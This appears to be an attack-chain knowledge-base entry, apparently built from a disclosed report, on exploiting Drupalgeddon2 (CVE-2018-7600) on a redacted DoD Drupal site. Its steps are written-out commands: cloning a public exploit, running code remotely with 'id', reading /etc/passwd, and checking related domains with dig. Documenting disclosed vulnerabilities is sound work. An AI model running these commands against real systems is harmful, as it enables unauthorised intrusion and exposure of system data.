

---
tags:
  - rce
  - drupal
  - cve-2018-7600
  - web-exploit
  - dod
type: attack_chain
tools:
  - '[[tools/git]]'
  - '[[tools/gem]]'
  - '[[tools/ruby]]'
  - '[[tools/drupalgeddon2-customizable-beta-rb]]'
  - '[[tools/nokogiri]]'
  - '[[tools/dig]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
verified: false
platforms:
  - Web
  - Linux
submitted: true
created_at: '2024-01-01T00:00:00Z'
procedures:
  - '[[procedures/Download-and-Setup-Drupalgeddon2-Exploit]]'
  - '[[procedures/Execute-RCE-with-ID-Command]]'
  - '[[procedures/Execute-RCE-to-Read-Etc-Passwd]]'
  - '[[procedures/Verify-Related-Domains-with-DNS-Lookup]]'
step_count: 4
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Command-Line Interface]]'
updated_at: '2025-12-14T17:23:36.713Z'
description: >-
  Multi-stage exploitation of CVE-2018-7600 in Drupal 7.54 to achieve remote
  code execution on a U.S. Department of Defense website, demonstrating command
  execution and file access.
id: ab06bbcd-4ca9-4ede-8e48-46b651253da1
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Command-Line Interface]]'
---
# Remote Code Execution on DoD Website via Drupalgeddon2 CVE-2018-7600

The vulnerability exploited was CVE-2018-7600 (Drupalgeddon2), a remote code execution flaw in an outdated Drupal 7.54 installation on the U.S. Department of Defense website www.████████. It was discovered by identifying the Drupal version through the site's page and confirming known vulnerabilities via Drupal's security advisories. The exploit was executed using a publicly available Ruby script that targeted the form submission mechanism to inject and run arbitrary commands, demonstrating RCE by executing 'id' and 'cat /etc/passwd', which revealed system user information and file contents, potentially allowing full server compromise.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/git]]
- [[tools/gem]]
- [[tools/ruby]]
- [[tools/drupalgeddon2-customizable-beta-rb]]
- [[tools/nokogiri]]
- [[tools/dig]]

### Target Environment

- Web platform with Drupal CMS 7.54
- Services: Drupal on Apache/PHP
- Ports: Standard HTTP/HTTPS (80/443)
- Network access: Direct internet access to target URL

### Initial Access Requirements

- No credentials required
- External network position
- No prior access needed; public-facing application

## Detailed Attack Procedures

### Step 1: Setup Exploit Tools
procedure: [[procedures/Download-and-Setup-Drupalgeddon2-Exploit]]

**Objective**: Obtain and prepare the Drupalgeddon2 exploit script and dependencies.

**Instructions**: Clone the repository using [[commands/git-clone-drupalgeddon2]] and install the required gem with [[commands/gem-install-nokogiri]].

```bash
git clone https://github.com/dreadlocked/Drupalgeddon2.git && cd Drupalgeddon2
gem install nokogiri
```

**Expected Output**: Repository cloned into Drupalgeddon2 directory; nokogiri gem installed successfully.

**Success Indicators**:
- Exploit files downloaded
- No dependency errors

### Step 2: Execute RCE with ID Command
procedure: [[procedures/Execute-RCE-with-ID-Command]]

**Objective**: Achieve remote code execution by running the 'id' command to identify the running user.

**Instructions**: Run the exploit script using [[commands/ruby-drupalgeddon2-id]] targeting the vulnerable form.

```bash
ruby drupalgeddon2-customizable-beta.rb -u https://www.████████/ -v 7 -c id --form user/login
```

**Expected Output**: Script outputs request details, form build ID, and 'id' result like 'uid=48(apache) gid=48(apache) groups=48(apache)'.

**Success Indicators**:
- RCE confirmed via command output
- Server user context revealed

### Step 3: Execute RCE to Read /etc/passwd
procedure: [[procedures/Execute-RCE-to-Read-Etc-Passwd]]

**Objective**: Demonstrate file read capability by extracting sensitive system user data.

**Instructions**: Re-run the exploit with [[commands/ruby-drupalgeddon2-cat-passwd]] to cat the passwd file.

```bash
ruby drupalgeddon2-customizable-beta.rb -u https://www.██████/ -v 7 -c "cat /etc/passwd" --form user/login
```

**Expected Output**: Contents of /etc/passwd, listing users like root, daemon, bin, etc.

**Success Indicators**:
- File contents retrieved
- Potential for further enumeration

### Step 4: Verify Related Domains
procedure: [[procedures/Verify-Related-Domains-with-DNS-Lookup]]

**Objective**: Check if related domains share the same vulnerable host via DNS resolution.

**Instructions**: Use [[commands/dig-www-example]] and [[commands/dig-www-related]] to compare IP addresses.

```bash
dig +short www.█████
dig +short www.██████████
```

**Expected Output**: Matching IP addresses for both domains, confirming shared infrastructure.

**Success Indicators**:
- IPs match
- Vulnerability scope expanded

## Attack Chain Summary

### Key Achievements

1. Identified and confirmed Drupal 7.54 vulnerability
2. Achieved RCE as apache user
3. Read sensitive system files
4. Verified attack surface across related domains

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Command-Line Interface]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---
*Last updated: 2024-01-01T00:00:00Z*
